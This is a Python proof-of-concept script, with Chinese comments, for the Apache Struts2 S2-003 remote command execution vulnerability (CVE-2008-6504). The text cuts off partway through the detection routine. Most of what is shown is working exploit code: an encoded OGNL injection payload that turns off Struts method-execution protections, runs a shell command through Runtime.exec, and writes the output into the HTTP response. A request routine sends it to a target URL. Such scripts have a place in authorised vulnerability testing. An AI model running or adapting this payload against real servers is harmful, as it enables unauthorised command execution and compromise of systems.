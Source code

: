 ### POC

```python
#!/usr/bin/env python3

'''
name: Struts2 S2-003漏洞,又名CVE-2008-6504漏洞
description: Struts2 S2-003漏洞可执行任意命令
'''

import random
import string
import requests

class S2_003_BaseVerify:
    def __init__(self, url):
        self.url = url 
        self.headers = {
            'User-Agent': "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.85 Safari/537.36 115Browser/6.0.3",
        }
        self.capta = self.get_capta() 
        self.check_payload = r'''?('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)&('\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET')(kxlzx)(kxlzx)&('\u0023mycmd\u003d\'{0}\'')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\u0023mycmd)')(bla)(bla)&(A)(('\u0023mydat\u003dnew\40java.io.DataInputStream(\u0023myret.getInputStream())')(bla))&(B)(('\u0023myres\u003dnew\40byte[51020]')(bla))&(C)(('\u0023mydat.readFully(\u0023myres)')(bla))&(D)(('\u0023mystr\u003dnew\40java.lang.String(\u0023myres)')(bla))&('\u0023myout\u003d@org.apache.struts2.ServletActionContext@getResponse()')(bla)(bla)&(E)(('\u0023myout.getWriter().println(\u0023mystr)')(bla))'''.format('echo\\n' + self.capta)

    def get_capta(self):
        """
        获取一个随机字符串

        :param:

        :return str capta: 生成的字符串
        """
        capta = ''
        words = ''.join((string.ascii_letters,string.digits))
        for i in range(8):
            capta = capta + random.choice(words)
        return capta                 

    def run(self):
        """
        检测是否存在漏洞

        :param:

        :return str True or False
        """

        if not self.url.startswith("http") and not self.url.startswith("https"):
            self.url = "http://" + self.url
        if '.action' not in self.url:
            self.url = self.url + '/example/HelloWorld.action'
        try:
            check_req = requests.get(self.url + self.check_payload, headers = self.headers)
            if self.capta in check_req.text.replace('\n', ''):
                return True
            else:
```